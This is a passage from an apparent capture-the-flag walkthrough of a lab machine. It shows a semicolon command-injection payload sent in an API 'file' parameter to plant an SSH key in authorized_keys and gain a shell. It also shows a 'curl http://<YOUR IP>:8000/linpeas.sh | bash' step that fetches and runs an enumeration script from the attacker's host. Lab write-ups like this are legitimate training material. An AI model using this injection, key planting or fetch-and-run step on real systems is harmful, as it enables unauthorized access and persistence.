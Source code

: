 We can see here that `dasith` does have ssh login privileges, so that's good.

### Getting a Shell

Let's focus on getting a shell next. Now that we know we're running as a user with ssh login privileges, we can just add an ssh key to the user's `authorized_keys` file and we can get a nicely-behaving and stable shell going. We'll need to do a few things for this.

First, create an ssh key using `ssh-keygen`. I called mine `key` and didn't give it a passphrase.

Next, because there's a little bit of wierdness with the API and `+` characters, I base-64 encoded the public key.

```bash
base64 key.pub -w 0
```

This will give us back our base-64 encoded public key.

Now we can send the payload. Put the following in the `file` parameter of a GET request for [http://10.10.11.120:3000/api/logs](http://10.10.11.120:3000/api/logs), like we did earlier for the other requests. Remember to add your base-64 encoded key into the spot indicated.

```bash
; mkdir ~/.ssh; echo "<BASE-64 ENCODED PUBLIC KEY>" | base64 -d >> ~/.ssh/authorized_keys; chmod 600 ~/.ssh/authorized_keys
```

This will add our public ssh key to the server as an authorized key. Now all we need to do is connect.

```bash
ssh -i key dasith@10.10.11.120
```

and we're in!

## Root
### Enumeration

Let's start by running [linPEAS](https://github.com/carlospolop/PEASS-ng) for some enumeration. Download the most recent release of `linpeas.sh` to your system, `cd` into the downloads folder, and run this command on your local box

```bash
python -m http.server
```
*__Notes:__ you may have to swap out* `python` *with* `python3` *in some environments. This will also expose all the files in that folder to anyone on any networks you're connected to, so feel free to create a special folder to have just linpeas in before you run this command if you don't want to expose anything sensitive by accident.*

Next, in the ssh session, run

```bash
curl http://<YOUR IP>:8000/linpeas.sh | bash
```
